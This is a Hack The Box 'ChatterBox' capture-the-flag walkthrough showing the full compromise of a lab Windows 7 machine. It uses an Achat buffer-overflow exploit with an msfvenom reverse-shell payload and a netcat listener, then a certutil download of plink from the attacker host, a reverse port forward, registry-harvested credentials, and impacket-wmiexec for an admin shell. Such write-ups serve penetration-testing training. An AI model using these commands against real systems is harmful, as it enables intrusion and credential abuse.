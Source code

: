 # ChatterBox [HTB](https://app.hackthebox.com/machines/Chatterbox)
![chatterbox-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/chatterbox-01.png)



## Recon

Lets enumerate the machine with `nmap`:

`nmap -sC -sV -A 10.129.214.7 -oN nmap.result`


![nmap-res-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/nmap-res-02.png)


We
We get the following ports:

+ RPC endpoint-mapper on port 135.
+ SMB on port  445.
+ NetBIOS on port 139.
+ HTTP on port 9255.
+ Custom TCP service on port 9256.
+ Other RPC endpoint on 49152-49157.


We can also see the target is probably a Windows 7 system. 
Lets start by taking a look at the SMB and RPC endpoints and see if we can snatch any quick 
wins there. 



### SMB


Altough we can login anonymously to the IPC$ share with `smbclient -U "%" -N \\\\10.129.214.7\\IPC$`:

![ipc-connect-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/ipc-connect-03.png)


We cant do anything inside: 

![ipc-fail-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/ipc-fail-04.png)


If we check the SMB version with msf's `scanner/smb/smb_version`, well see that the target 
is running SMB v2.1: 

![msf-res-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/msf-res-05.png)



SMB v2.1, should be vulnerable to `Eternal-Blue`, but after a quick check our target is not:
`scanner/smb/smb_ms17_010`

![eb-res-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/eb-res-06.png)
 

At the moment, SMB doesnt look like the way forward, `enum4linux` yields nothing meaningful, 
and it seems that the SMB is tightly guarded. 

Lets move on to check the HTTP and the custom RPC port. 



### Achat


Trying to open the following URL `http://10.129.214.7:9255/`, quickly fails, nothing happens, 
no error message or redirects. Adding the hostname to our `/etc/hosts` doenst help. 


If we open Burp, we can see we are getting a `204 No-Content` replay: 

![204-replay-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/204-replay-07.png)



At first i thought Achat was a custom service tailored for this box specifically. But after
a quick goolge search i came to find out i was worng. Apparently its an open-source anonymous chat
application, and it has a [github](https://github.com/0301yasiru/aChat).


A quick google search also leads to [this](https://tenaka.gitbook.io/pentesting/boxes/achat) page.
Apparently, Achat is vulnerable to a buffer-overflow attack, and we have the exploit ready on 
our Kali machine in `/usr/share/exploitdb/exploits/windows/remote/36025.py`. 


Here is the exploit breakdown: 

copy the exploit to our CWD `cp /usr/share/exploitdb/exploits/windows/remote/36025.py achat.py`

update the shellcode with the following `msfvenom` command:

```bash
msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp lhost=<myip> lport=4444 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```

Take the output, and replace the `buf` varaible in the exploit with it.
Finally, change the target IP in the exploit:

![target-exp-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/target-exp-08.png)


Start the listener: `nc -lnvp 4444`


Execute the exploit `./achat.py`


Get a shell: 

![shell-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/shell-09.png)


## Privilege Escalation


After running a few basic commands from [sushant](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html)'s cheat sheet, i found something interesting. 

`reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"`


![pass-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/pass-10.png)


If we list out our open ports on the machine with `netstat -ano` we can see the following: 


![netstat-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/netstat-11.png)


We have all these ports running on the localhost. nmap did manage to detect them for some 
reason. Now that we have credentials however, we could try to get access to them. But since they 
are running on the localhost, we need to setup port forwarding to our attack machine. 

For this we need [plink](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html),
Download the 32-bit version to your attack machine.

Start a python server `python3 -m http.server 8888`

Download it to the target with `certutil -urlcache -f http://10.10.14.21:8888/plink.exe plink.exe`

![transfer-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/transfer-12.png)


Now we need to change two things in the `/etc/sshd/sshd_config` file on our kali:
First, permit root logins: 

![ssh-mod-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/ssh-mod-13.png)


Second, change the deafult port to 2222:

![ssh-mod-14](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/ssh-mod-14.png)


This is necessary beacuse HTB's firewalls block port 22. 
Finally start the ssh service with `service ssh start`.

Now we can run the port forwarding on the target machine with:
`plink.exe -l root -pw <pass> -R 445:127.0.0.0.1:445 10.10.14.68 -P 2222`


![plink-15](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/plink-15.png)


On our Kali machine we can check the status of port 445 with `netstat -ao | grep 445`:


![445-status-16](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/445-status-16.png)


We can now start connecting to the SMB on the target through our localhost. 
Lets try logging in to the Admin$ share with `smbclient -U 'Alfred%Welcome1!' //127.0.0.1/Admin$`

![admin-fail-17](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/admin-fail-17.png)


This fails, says we dont have access. What if we tried to use the same password with the 
Administrator account, after all Alfred and Administrator are the only two users on the machine.
And weve only found this one password in our enumeration, worth a shot. 


![admin-success-18](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/admin-success-18.png)



That's it, they use the same password. From here we can use `wmiexec` to pop a shell as the admin. 
`impacket-wmiexec Administrator:Welcome1\!@10.129.151.176`


![root-19](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/root-19.png)
